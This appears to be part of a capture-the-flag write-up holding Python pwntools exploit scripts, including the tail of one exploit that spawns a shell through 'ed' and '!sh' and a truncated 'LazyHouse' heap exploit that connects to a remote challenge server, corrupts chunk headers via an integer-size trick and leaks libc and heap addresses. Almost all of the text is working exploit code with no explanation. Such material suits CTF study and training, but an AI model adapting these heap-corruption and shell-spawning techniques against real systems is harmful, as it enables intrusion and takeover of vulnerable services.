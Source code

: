 ```python
r.sendline(" "+hex(libc+0x4f440))
r.sendafter(":","a"*0x400)
r.sendline("")
r.sendline("ed")
r.sendline("!sh")
r.interactive()
```

### LazyHouse
```python
from pwn import *

#r = process(["./lazyhouse"])
r = remote("3.115.121.123", 5731)
def buy(idx,size,house):
    r.sendlineafter(":","1")
    r.recvuntil(":")
    r.sendlineafter(":",str(idx))
    r.sendlineafter(":",str(size))
    r.recvuntil(":")
    if size < 0xffffffff:
        r.sendafter(":",house)

def show(idx):
    r.sendlineafter(":","2")
    r.sendlineafter(":",str(idx))

def remove(idx):
    r.sendlineafter(":","3")
    r.sendlineafter(":",str(idx))


def Upgrade(idx,house):
    r.sendlineafter(":","4")
    r.sendlineafter(":",str(idx))
    r.sendafter(":",house)

def Super(house):
    r.sendlineafter(":","5")
    r.sendafter(":",house)



buy(0,84618092081236480,"a")
remove(0)
buy(0,0x80,"a")
buy(1,0x500,"a")
buy(2,0x80,"a")
remove(1)
buy(1,0x600,"a")
Upgrade(0,"\x00"*0x88+p64(0x513))
buy(7,0x500,"a")
show(7)
data = r.recvn(0x500)
libc =  u64(data[0x8:0x10])-0x1e50d0
heap = u64(data[0x10:0x18])-0x2e0
print hex(libc)
print hex(heap)

remove(0)
remove(1)
remove(2)
size = 0x1a0+0x90
```